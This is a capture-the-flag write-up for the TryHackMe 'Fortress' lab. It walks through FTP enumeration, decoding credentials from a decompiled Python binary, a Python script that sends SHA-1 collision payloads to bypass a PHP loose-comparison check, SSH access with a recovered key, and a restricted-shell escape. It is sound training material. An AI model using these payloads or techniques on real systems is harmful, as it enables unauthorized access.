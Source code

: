 <h3> Fortress TryHackMe </h3>

Difficulty = Medium

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b90c908d-b712-4207-b663-334cf62092b1)

Lets start enumeration from ftp 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/584e61c6-87d3-48cb-bdb3-0d832ee5c27f)

Reading the *marked.txt* file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/de3ab684-1e53-49d5-9494-552336f8eec3)

While checking the file type for the *file* shows it's a python compiled binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e8252502-7679-416a-a5f3-3f21526834b9)

Lets decompile it using [uncompyle2](https://github.com/wibiti/uncompyle2)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d3c64e11-2d32-4558-bc2e-e1bbf94790a0)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/05362c40-c0bf-4158-9aa3-0fe89383676f)

We can see what it does. It creates a socket running on port *5752* and it asks for username and password, If the provided username and password is correct it calls the secret() function which basically opens up the *secret.txt* file

But the username and password is converted from bytes to long I wrote a script to decode it

```python
#!/usr/bin/python3
# Author: Hack.You
from Crypto.Util.number import long_to_bytes

usern = 232340432076717036154994
passw = 10555160959732308261529999676324629831532648692669445488

print(f'Username: {long_to_bytes(usern)}')
print(f'Password: {long_to_bytes(passw)}')
```

Running the script gives the username and password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/071f17a7-1409-409b-b5ac-360259859634)

Now lets connect to the remote socket hosted on port 5752
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d01ccd61-877e-4f5a-8260-2941292587fb)

It gives us this `t3mple_0f_y0ur_51n5`

What can we do with this now 🤔

Lets move over to the web server 

Checking it just shows the normal apache default web page

Fuzzing for directory doesn't lead me anywhere

But when i tried *t3mple_0f_y0ur_51n5* appended with a *.html* gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a1236764-4b54-4f73-be57-aa3958c7c3f9)

But checking source code shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1673f22e-ce94-4e8c-a9c0-9311298b1c52)

Also looking at the style.css file gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a063d1e1-bcc3-4e67-9052-99353b710f23)

When decoded it forms this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/412f1966-bc68-4e97-8b6d-2221e85e5d75)

From here we can tell that we're to do a hash collision since *COLLIDING* was capitalized 

Here's what the php code does:

```
1. It assigns zero of length 6 to the badchar variable
2. It checks for if the username and password is passed via a get parameter
3. It converts them to string which are stored respectively in variable test1 and test2
4. It converts the two test variable to hex which are stored in hex1 and hex2 respectively
5. The first check that is done checks if test1 is equal to test2 then it prints out 'You can\'t cross the gates of the temple, GO AWAY!!
6. The second check is that if the string length of test2 is less than or equal to 500 and the string length of test1 is less than or equal to 600. If it is it prints out some error message
7. The third check, checks if the first occurrence of hex1 is equal to the bad byte or the first occurence of hex2 is equal to the bad bytes and if it is it prints an error message
8. The last check compares the sha1 value of test1 with that of test2 # bug here
```

From this we can tell that the bug is in the fourth check as it doesn't use *===* but rather *==* 

Using this past [writeup](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) on a ctf I edited the script to work for this box

```python
#!/usr/bin/env python
import requests

name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

url = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)
resp = requests.get(url)
print(resp.text)
```

Note: I had to use *t3mple_0f_y0ur_51n5.php* cause that's the main page the login is based on

Running the script works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/149f9965-0e07-4090-9c9c-7a822eff1aae)

We can see this new file in the html *m0td_f0r_j4x0n.txt*

Going over there gives an ssh key
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/834d8346-f8d0-4e7b-8999-5f63018039ad)

Lets login to ssh as user *h4rdy* 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5c692abf-0a51-483d-b33c-9dd4a2986c7c)

After loggin in we can tell that we're restricted to command cause we're in a rbash shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1f2f1171-546c-4c2c-b42e-bc6e7950413b)

Quick google research leads [here](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)

Trying it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5f9bfc96-a817-435f-bd59-c881ca2b865b)

But the problem is our path variable is messed up 

Lets fix that 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/888017ab-47ab-4ed3-97f6-e9466f36ce20)

```
Command: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
```
